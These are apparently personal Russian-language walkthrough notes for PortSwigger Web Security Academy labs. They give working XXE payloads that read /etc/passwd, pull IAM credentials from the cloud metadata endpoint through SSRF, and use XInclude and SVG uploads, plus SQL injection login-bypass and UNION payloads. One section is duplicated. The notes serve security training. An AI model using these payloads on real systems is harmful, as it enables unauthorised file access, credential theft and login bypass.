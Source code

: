 # XXE

1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

6)заменить product id на `&res`; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd


____

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5) в product id вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
``` 
в ответ придёт /etc/passwd

____

4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

1) 2) выбрать статью 

3)нажать отправить комментариq(заполнить все поля предварительно) 

4)перехватить запрос через Burp

5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

# SQL

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат